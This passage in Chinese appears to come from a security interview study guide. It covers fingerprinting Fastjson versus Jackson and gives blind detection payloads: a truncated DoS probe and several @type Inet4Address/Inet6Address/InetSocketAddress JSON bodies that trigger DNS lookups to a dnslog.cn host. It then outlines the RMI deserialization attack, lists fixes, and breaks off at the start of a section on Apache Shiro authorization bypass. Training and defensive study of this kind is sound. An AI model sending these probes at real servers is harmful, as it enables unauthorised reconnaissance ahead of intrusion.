 增加一个键值对

```
{"name":"json", "age":21,"test":123}
```

如果返回输入错误则应该使用的是jackson，反之则为fastjson

（3）判断是否存在低版本fastjson

当fastjson版本低于1.6.0的时候可以尝试通过dos的方式判断是否存在fastjson 但不能成不代表一定没有fastjson。

```
{"a":"\x
```

（4）通过dnslog进行盲打

1.2.67版本前

```
{"zeo":{"@type":"java.net.Inet4Address","val":"w1nk2u.dnslog.cn"}}
```

1.2.67版本后

```
{"@type":"java.net.Inet4Address","val":"dnslog"} {"@type":"java.net.Inet6Address","val":"dnslog"}
```

畸形dnslog

```
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
```

### 2-4.fastjson漏洞利用

攻击者构造恶意的json数据提交给服务器，服务器向rmi服务器请求并解析恶意指令，从而拿到目标服务器的权限。

Fastjson反序列化漏洞利用示意图：

![img](https://image.201068.xyz/assets/0.3.第二阶段面试题/clip_image004-1733806107703-11.jpg)

### 2-5.修复建议

1. 更新fastjson版本：fastjson的开发团队经常发布更新版本以修复漏洞，建议使用最新版本。
2. 禁用autotype：fastjson的autotype功能可能会导致一些安全问题，可以通过禁用autotype来修复漏洞。
3. 过滤输入参数：在使用fastjson解析json数据时，应该对输入参数进行过滤，确保输入数据符合预期。
4. 使用安全配置：fastjson提供了一些安全配置选项，可以通过设置这些选项来增强安全性。
5. 防火墙规则：可以通过防火墙规则来限制fastjson的请求，只允许特定的IP或者端口访问。

## 3.了解过shiro框架吗，知道shiro越权漏洞吗

### 3-1.Apache Shiro框架介绍

Apache Shiro是一个强大且易用的Java安全框架，执行身份验证.授权.密码和会话管理。目前常见集成于各种应用中进行身份验证，授权等。

### 3-2.shiro权限绕过的原因（重点）
